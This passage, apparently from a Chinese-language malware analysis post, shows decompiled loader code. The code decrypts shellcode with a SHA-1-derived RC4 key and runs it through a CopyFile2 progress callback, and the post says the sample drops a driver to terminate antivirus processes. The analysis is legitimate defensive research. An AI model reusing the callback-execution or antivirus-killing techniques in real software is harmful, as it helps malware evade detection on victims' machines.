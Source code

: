```
    && CryptDeriveKey(phProv, 0x6610u, phHash, 0, &phKey)
    && CryptDecrypt(phKey, 0i64, 1, 0, (BYTE *)v7, &pdwDataLen) )
  {
    CryptReleaseContext(phProv, 0);
    CryptDestroyHash(phHash);
    CryptDestroyKey(phKey);
    Sleep(3u);
    return v7;
  }
  else
  {
    free(v7);
    return 0i64;
  }
}

```  
  
具体解密流程如下：  
  
1.**获取加密上下文**：通过 CryptAcquireContextW 获取加密服务提供者的上下文。  
  
2.**创建哈希对象**：通过 CryptCreateHash 创建一个 SHA-1 哈希对象。  
  
3.**计算数据的哈希值**：通过 CryptHashData 计算给定数据的哈希值。  
  
4.**派生密钥**：通过 CryptDeriveKey 从哈希值派生一个 RC4 密钥。  
  
5.**解密数据**：使用 CryptDecrypt 通过派生的 RC4 密钥解密数据。  
  
6.**清理资源**：通过 CryptReleaseContext、CryptDestroyHash 和 CryptDestroyKey 释放加密服务提供者、哈希对象和密钥的资源。  
  
最后生成一个解密后的shellcode并返回  
  
通过copyFile2 执行回调  
```
   v12 = decode((__int64)v9, (const BYTE *)v4, v10);
    if ( v12 )
    {
      pExtendedParameters.dwSize = 32;
      pExtendedParameters.dwCopyFlags = 1;
      pExtendedParameters.pfCancel = 0i64;
      pExtendedParameters.pProgressRoutine = (PCOPYFILE2_PROGRESS_ROUTINE)v12;
      pExtendedParameters.pvCallbackContext = 0i64;
      DeleteFileW(L"C:\\Windows\\Temp\\backup.log");
      CopyFile2(L"C:\\Windows\\DirectX.log", L"C:\\Windows\\Temp\\backup.log", &pExtendedParameters);
    }

```  
  
通过对createfileA函数下断点，可以发现在C:\Users\username\AppData\Local\Temp目录下释放了这个驱动，之后就是加载该驱动并利用此驱动关闭杀软进程  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/DxUXemrrnto37jm0uaw0PJgB0MlLXmtvL2rvDhpg18qFYXEFV2aRibR5064iaHu9bzjSqqntTZB05aaujn9khib7A/640?wx_fmt=png&from=appmsg "")  
## 2.3 驱动分析  
  